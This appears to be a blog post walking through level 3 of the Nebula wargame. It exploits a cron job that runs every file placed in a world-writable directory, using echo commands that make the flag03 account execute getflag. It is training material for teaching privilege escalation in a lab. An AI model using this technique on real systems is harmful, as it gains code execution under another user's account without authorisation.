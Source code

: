 ```yaml
---
layout: post
title:  "Exploit Excercises - Nebula: Level 3"
date:   2016-07-30 12:33:00 +0200
categories: exercises security
---
```


> Check the home directory of flag03 and take note of the files there.
> There is a crontab that is called every couple of minutes.

* * *

We'll start by examining the files in `flag03`'s home directory.

~~~ bash
level03@nebula:~$ ls -al /home/flag03/
total 6
drwxr-x--- 3 flag03 level03  103 2011-11-20 20:39 .
drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
-rw-r--r-- 1 flag03 flag03   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag03 flag03  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag03 flag03   675 2011-05-18 02:54 .profile
drwxrwxrwx 2 flag03 flag03     3 2012-08-18 05:24 writable.d
-rwxr-xr-x 1 flag03 flag03    98 2011-11-20 21:22 writable.sh
~~~

~~~ bash
level03@nebula:~$ cat /home/flag03/writable.sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
~~~

Okay, so we have a directory we can write to, and a script that will gladly execute whatever is in that directory.

The easiest way to run the `getflag` executable would be to put this simple script into the `writable.d` directory.

~~~ bash
level03@nebula:~$ echo "getflag > /tmp/getflag.log" > /home/flag03/writable.d/getflag
~~~

Now we wait a few minutes. The cron job is executed every 3 minutes (you can check this by adding a script that runs `crontab -l > /tmp/crontab.log` or similar).

~~~ bash
level03@nebula:~$ cat /tmp/getflag.log
You have successfully executed getflag on a target account
~~~

You could also solve this by changing the password of the `level03` user, but that might be a bit more intrusive :)

Let's move on to [level4]({% post_url 2016-07-30-exploit-exercises-level-4 %})!
